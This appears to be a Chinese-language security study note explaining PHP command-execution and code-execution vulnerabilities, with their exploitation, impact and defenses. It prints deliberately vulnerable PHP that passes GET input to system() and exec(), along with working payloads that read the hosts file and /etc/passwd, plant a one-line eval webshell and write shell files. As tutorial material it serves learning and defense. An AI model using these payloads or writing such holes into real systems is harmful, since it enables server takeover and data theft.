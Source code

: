 # 命令执行漏洞
## 漏洞原理
代码层过滤不严，应用程序直接或间接使用了动态执行命令的危险函数，并且这个函数的运行参数是可控的。</br>
涉及到的函数：system()、exec()、shell_exec()、passthru()、popen()、反引号

## 命令执行漏洞的利用
（1）system()函数典型代码，及利用</br>
system.php文件代码内容：
```php
<?php
if(isset($_GET[‘cmd’])){
         echo “<pre>”;
         system($_GET[‘cmd’]);
}
?>
```
利用方式：提交URL，并且构造想输入的命令到参数里面。</br>
URL：http://192.168.11.11/system.php?cmd=ipconfig</br>
（2）exec()函数典型代码及利用</br>
exec.php文件代码内容：</br>
```php
<?php
if(isset($_GET[‘cmd’])){
         echo “<pre>”;
         print exec($_GET[‘cmd’]);
}
?>
```
利用方式：提交URL，并且构造想输入的命令到参数里面。</br>
URL：http://192.168.11.11/exec.php?cmd=whoami</br>
（3）查看系统文件</br>
payload：
```
?cmd=type c:\windows\system32\drivers\etc\hosts      (查看系统hosts文件)
```
（4）写文件</br>
payload：
```
?cmd=echo “<?php phpinfo();?>” > c:\phpStudy\WWW\Command\shell.php
```
页面如果没有报错，说明写文件成功；再去访问shell.php文件，另外同样可以写入一句话木马。</br>
（5）其他命令执行的危险函数利用方式都差不多，均是利用参数过滤不严格，构造可控的命令内容到危险函数中去执行，最后达到攻击目的。</br>
（6）Windows和Linux中多命令执行的语法如下：</br>
![image](https://github.com/n4ttt/Sec-Note/assets/32692640/ee0ea053-5721-4d62-ba39-dc9e2d448c6a)

## 命令执行漏洞的危害
（1）继承web服务器程序权限（web用户权限），去执行系统命令</br>
（2）继承web服务器权限，读写文件</br>
（3）反弹shell</br>
（4）控制整个网站</br>
（5）控制整个服务器

## 命令执行漏洞的防御
（1）尽量少使用执行命令的函数或者禁用disable_functions；</br>
（2）在进入执行命令的函数之前，对参数进行过滤，对敏感字符进行转义；</br>
（3）参数值尽量使用引号包括，并且在拼接前调用addslashes进行转义。

# 代码执行漏洞
## 漏洞原理
应用程序在调用一些能够将字符串转换为代码的函数（如PHP中的eval）时，没有考虑用户是否控制这个字符串，将造成代码执行漏洞。</br>
大部分都是根据源代码判断代码执行漏洞。</br>
代码执行相关危险函数：</br>
（1）PHP: eval、assert、preg_replace()、+/e模式（PHP版本<5.5.0）</br>
（2）Javascript: eval</br>
（3）Vbscript：Execute、Eval</br>
（4）Python: exec</br>
（5）Java: Java中没有php中eval函数这种直接可以将字符串转化为代码执行的函数，但是有反射机制，并且有各种基于反射机制的表达式引擎，如：OGNL、SpEL、MVEL等，这些都能造成代码执行漏洞。

## 代码执行漏洞的利用
（1）一句话木马
```
${@eval($_POST[1])}
```
（2）获取当前工作路径
```
${exit(print(getcwd()))}
```
使用菜刀</br>
（3）读文件
```
${exit(var_dump(file_get_contents($_POST[f])))}
f=/etc/passwd
```
使用post提交数值 f=/etc/passwd
（4）写webshell
```
${exit(var_dump(file_put_contents($_POST[f], $_POST[d])))}
f=1.php&d=1111111
```
同样使用post

## 代码执行漏洞的防御
（1）对于eval()函数一定要保证用户不能轻易接触eval参数或者用正则严格判断输入的数据格式。</br>
（2）对于字符串一定要使用单引号包裹可控代码，并且插入前进行addslashes</br>
（3）对于preg_replace放弃使用e修饰符.如果必须要用e修饰符，请保证第二个参数中，对于正则匹配出的对象，用单引号包裹。
